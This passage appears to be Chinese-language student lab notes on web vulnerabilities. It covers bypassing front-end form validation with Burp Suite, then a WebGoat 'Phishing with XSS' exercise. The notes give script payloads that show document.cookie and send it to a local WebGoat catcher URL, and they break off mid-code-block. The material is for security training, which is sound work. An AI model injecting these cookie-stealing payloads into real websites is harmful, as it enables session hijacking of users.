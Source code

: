     ![](images/post-ori2.png)     
    * 和上一过程同理，用burp suite进行拦截并且修改每一个表项内容，让其不符合校验标准，然后forward     
    * 按理说应该提交成功，突破校验。但是实验没成功（老师上课演示也没成功）    
    * 原理懂了即可，该实验也就是为了说明前端的校验标准也容易被突破    

### 【漏洞类型②：跨站点脚本(XSS)】   
* 用WebGoat 7.0.1 环境做这个实验：Phishing with XSS  
  ![](images/xss8087.png)  
* 可见这个实验的目的是：   
  * 通过xss攻击获取受害者的cookie
  * 把cookie以参数的形式发送到目标服务器中   
* 首先尝试最基础的弹窗，用以下代码弹出页面cookie值         
``` <script>alert(document.cookie)</script> ```      
  ![](images/xss0.png)       
* 换成以下代码    
``` <script>window.open('http://127.0.0.1:8087/WebGoat/ catcher?PROPERTY=yes&msg='+document.cookie)</script> ``` 
  ![](images/xss1.png)         
* 观察到此时弹出了一个网页，其URL为         
```